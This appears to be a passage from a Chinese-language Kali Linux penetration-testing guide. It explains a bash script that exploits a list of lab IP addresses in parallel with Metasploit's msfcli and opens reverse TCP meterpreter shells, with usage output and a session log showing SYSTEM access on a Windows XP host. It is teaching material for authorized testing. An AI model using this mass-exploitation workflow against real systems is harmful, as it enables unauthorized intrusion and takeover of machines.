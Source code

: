 脚本使用`for`循环，对输入文本文件中列出的每个 IP 地址执行特定任务。 该特定任务包括启动一个新的 GNOME 终端，该终端又执行必要的`msfcli`命令来利用该特定系统，然后启动反向 TCP meterpreter shell。 因为`for`循环为每个 MSFCLI 漏洞启动一个新的 GNOME 终端，每个都作为一个独立的进程执行。 以这种方式，多个进程可以并行运行，并且每个目标将被同时利用。 本地端口值被初始化为 4444，并且对被利用的每个附加系统增加 1，使每个 meterpreter shell 连接到不同的本地端口。 因为每个进程在独立的 shell 中执行，所以这个脚本需要从图形桌面界面执行，而不是通过 SSH 连接执行。 `./multipwn.sh bash shell`可以执行如下：

```
root@KaliLinux:~# ./multipwn.sh 
Usage: #./script <host file> <LHOST> 
root@KaliLinux:~# ./multipwn.sh iplist.txt 172.16.36.239 
Exploiting 172.16.36.132 and establishing reverse connection on local port 4444 
Exploiting 172.16.36.158 and establishing reverse connection on local port 4445 
Exploiting 172.16.36.225 and establishing reverse connection on local port 4446
```

如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 该使用描述将表明，该脚本以定义监听 IP 系统的`LHOST`变量，以及包含目标 IP 地址列表的文本文件的文件名来执行。 一旦以这些参数执行，会开始弹出一系列新的终端。 这些终端中的每一个将运行输入列表中的 IP 地址之一的利用序列。 原始的执行终端将在执行时输出进程列表。 所提供的示例利用了三个不同的系统，并且为每个系统打开单独的终端。其中一个终端的示例如下：

```
[*] Please wait while we load the module tree...
     ,           ,    
    /             \  
   ((__---,,,---__))   
      (_) O O (_)_________    
         \ _ /            |\    
          o_o \   M S F   | \  
               \   _____  |  *    
                |||   WW|||      
                |||     |||
                
Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with Metasploit Pro -- type 'go_pro' to launch it now.

       =[ metasploit v4.6.0-dev [core:4.6 api:1.0] 
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post 
+ -- --=[ 275 payloads - 28 encoders - 8 nops

PAYLOAD => windows/meterpreter/reverse_tcp 
RHOST => 172.16.36.225 
LHOST => 172.16.36.239 
LPORT => 4446 
[*] Started reverse handler on 172.16.36.239:4446 
[*] Automatically detecting the target... 
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English 
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX) 
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 172.16.36.225 
[*] Meterpreter session 1 opened (172.16.36.239:4446 -> 172.16.36.225:1950) at 2014-04-10 07:12:44 -0400

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM 
meterpreter >
```
